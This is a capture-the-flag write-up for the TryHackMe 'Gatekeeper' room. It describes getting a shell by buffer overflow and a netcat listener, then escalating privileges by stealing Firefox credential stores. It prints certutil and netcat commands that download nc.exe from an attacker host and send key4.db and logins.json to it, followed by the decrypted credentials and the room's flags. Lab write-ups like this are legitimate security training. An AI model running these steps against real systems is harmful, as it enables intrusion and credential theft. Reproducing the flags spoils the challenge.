


## Challenge Name: THM_Gatekeeper


Challenge Description:
Binary exploit

Artifact Files:


### Approach
## Recon
Using `rustscan`  to scan port on target machine. Malicious port is 31337 (elite) which usually is a port we will exploit. And we can use smb to get the program that we can exploit



TEST port with `nc <IP> 31337` and get some interaction.



Using [exploit](CTF_img/THM_Gatekeeper/exploit.py)


We see reponse with our in put could be the way perform buffer overflow
**1 What is the user.txt flag? **
using `nc -nlvp 4444` this before exploit to get the shell
```
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\Desktop

05/14/2020  08:24 PM    <DIR>          .
05/14/2020  08:24 PM    <DIR>          ..
04/21/2020  04:00 PM             1,197 Firefox.lnk
04/20/2020  12:27 AM            13,312 gatekeeper.exe
04/21/2020  08:53 PM               135 gatekeeperstart.bat
05/14/2020  08:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  16,290,902,016 bytes free

C:\Users\natbat\Desktop>more user.txt.txt
more user.txt.txt
{H4lf_W4y_Th3r3}

The buffer overflow in this room is credited to Justin Steven and his
"dostackbufferoverflowgood" program.  Thank you!

C:\Users\natbat\Desktop>

```


Flag is `{H4lf_W4y_Th3r3}`


**2 What is the root.txt flag? **
# privilege escalation
We looking for some browser in formation and get the firefox
```
Directory of C:\Users\natbat\Desktop

05/14/2020  08:24 PM    <DIR>          .
05/14/2020  08:24 PM    <DIR>          ..
04/21/2020  04:00 PM             1,197 Firefox.lnk
04/20/2020  12:27 AM            13,312 gatekeeper.exe
04/21/2020  08:53 PM               135 gatekeeperstart.bat
05/14/2020  08:43 PM               140 user.txt.txt
               4 File(s)         14,784 bytes
               2 Dir(s)  16,290,902,016 bytes free
```


We will get cred in browser cache for escalation. And there is path for user data or app in this case is firefox
```
C:\Users\{user}\AppData\Roaming\Mozilla\Firefox\Profiles\
```

```
C:\Users\natbat\Desktop>cd C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\
cd C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\

C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles

04/21/2020  04:00 PM    <DIR>          .
04/21/2020  04:00 PM    <DIR>          ..
05/14/2020  09:45 PM    <DIR>          ljfn812a.default-release
04/21/2020  04:00 PM    <DIR>          rajfzh3y.default
               0 File(s)              0 bytes
               4 Dir(s)  16,192,217,088 bytes free
```
if you notice there is a directory called ```ljfn812a.default-release``` serach about on google you will find this folder save the browser logins
let's see what this folder content


```
05/14/2020  09:45 PM    <DIR>          .
05/14/2020  09:45 PM    <DIR>          ..
05/14/2020  09:30 PM                24 addons.json
05/14/2020  09:23 PM             1,952 addonStartup.json.lz4
05/14/2020  09:45 PM                 0 AlternateServices.txt
05/14/2020  09:30 PM    <DIR>          bookmarkbackups
05/14/2020  09:24 PM               216 broadcast-listeners.json
04/21/2020  11:47 PM           229,376 cert9.db
04/21/2020  04:00 PM               220 compatibility.ini

```


there is an important files that maight be contain logins
`key4.db` and `logins.json`. for Retrieving the passwords from those files there a good python script for that, read .


We will using script for this escalation so we using `git clone https://github.com/lclevy/firepwd.git'

We have to find a way to send `key4.db` and `logins.json` to our kali, solution is using netcat to transfer it. and we have to install netcat of window version to send to window machine
```
wget https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip
unzip netcat-win32-1.12.zip

```
We will transfer it by using http server and tool called ```CertUtil```  ne of the features of CertUtil is the ability to download a certificate, or any other file for that matter, from a remote URL and save it as a local file. we can get nc.exe from our kali to the windows using the command below
```
certutil -urlcache -f http://10.17.8.185:8000/nc.exe nc.exe

```
So that use these command to get key4.db and logins.json each cooamnd using seperate shell

##### kali
```
nc -nlvp 1234 > logins.json
```
##### windows shell
```
nc.exe -nv 10.17.8.185 1234 < logins.json
```

##### kali
```
nc -nlvp 1234 > key4.db
```
##### windows shell
```
nc.exe -nv 10.17.8.185 4321 < key4.db
```
move all that file to firepwd/
```
mv logins.json
mv key4.db
cd firepwd/
pip install -r requirements.txt
python3 firepwd.py
.....
clearText b'86a15457f119f862f8296e4f2f6b97d9b6b6e9cb7a3204760808080808080808'
decrypting login/password pairs
   https://creds.com:b'mayor',b'8CL7O1N
```
After we get credential we use   ```psexec`` PSExec: This tool can execute any command on the remote system, including interactive commands such as cmd.exe or powershell.exe
## flag
```
C:\Windows\system32>cd C:\users\mayor\desktop

C:\Users\mayor\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 3ABE-D44B

 Directory of C:\Users\mayor\Desktop

05/14/2020  08:58 PM    <DIR>          .
05/14/2020  08:58 PM    <DIR>          ..
05/14/2020  08:21 PM                27 root.txt.txt
               1 File(s)             27 bytes
               2 Dir(s)  16,295,755,776 bytes free

C:\Users\mayor\Desktop>more root.txt.txt
{Th3_M4y0r_C0ngr4tul4t3s_U}

C:\Users\mayor\Desktop>
```
Flag is `{Th3_M4y0r_C0ngr4tul4t3s_U}`
